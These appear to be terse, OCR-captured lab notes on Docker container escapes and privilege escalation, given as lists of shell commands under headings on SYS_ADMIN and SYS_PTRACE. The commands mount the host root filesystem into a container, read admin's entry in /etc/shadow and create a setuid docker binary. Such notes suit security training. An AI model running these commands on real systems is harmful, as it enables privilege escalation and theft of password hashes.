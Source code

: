 > apt install -y libcap2-bin vim gcc net-tools netcat-traditional john ssh

> capsh --print

> docker commit myubuntu myubuntu

## CAP SYS_ADMIN
> docker run -it --cap-drop=ALL --cap-add=SYS_ADMIN --security-opt apparmor=unconfined --device=/dev/:/ myubuntu bash

> caps --print

> ^D

> sudo useradd unpriv

> sudo useradd admin

> sudo passwd unpriv

> sudo passwd admin

> sudo usermod -aG docker unpriv

> su unpriv

> sudo -v

> groups

> docker run -it --rm -v /:/host myubuntu bash

> grep admin /host/etc/shadow

> sudo usermod -G "" meltdown

> ^D

> groups

> sudo install -m=xs $(which docker) .

> ./docker run -it --rm -v /:/host myubuntu

> grep admin /host/etc/shadow

> ^D

> grep admin /etc/shadow

> sudo usermod -aG docker ${USER}

> ^D

> ssh



## CAP SYS_PTRACE  + shared pid NS
на хосте
> /usr/bin/python3 -m http.server 8080
